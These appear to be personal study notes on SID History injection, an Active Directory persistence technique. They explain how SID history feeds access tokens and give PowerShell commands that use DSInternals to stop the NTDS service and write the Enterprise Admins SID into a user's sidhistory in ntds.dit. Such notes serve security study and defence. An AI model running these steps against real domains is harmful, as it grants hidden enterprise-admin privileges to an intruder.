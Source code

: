 - [[Windows/Windows Internals/Uncategorized/SID]] is used to track the security principal for an account.
- SID history is used to track previous SIDs of the user (maybe while migrating the AD environment to a new one). This allows the user to access resource in the previous/last domain using the new account.
- SID history, by design, can story any SID, and doesn't need to be from other domain.
- With domain admin privileges, we can add/modify SIDs to the SID history property of a user object.
- When the user logs in, the SIDs are added to their access token, which determines the privilege of the user.
- This can be exploited for persistence as we can add the SID of an enterprise admin, as this would elevate the privilege of the user, even though we are not added to the Enterprise Admin group.
- SID property can fetched with AD module:
```powershell
Get-ADUser dr.dragon -Properties sidhistory
# empty by default
```
- Adding SID history using DSInternals
```powershell
# Fetch SID for Enterprise Admins
Get-ADGroup "Enterprise Admins" -Property SID
# Stoping the ntds service
Stop-Service -Name ntds -Force
# Adding the SID history
Add-ADDBSidHistory -SamAccountName "dr.dragon" -SidHistory 'ADMIN_SID' -DatabasePath C:\Windows\NTDS\ntds.dit
# Start the ntds service again
Start-Service -Name ntds
# Verify Enterprise Admin access
dir \\dc.mydomain.local\C$
```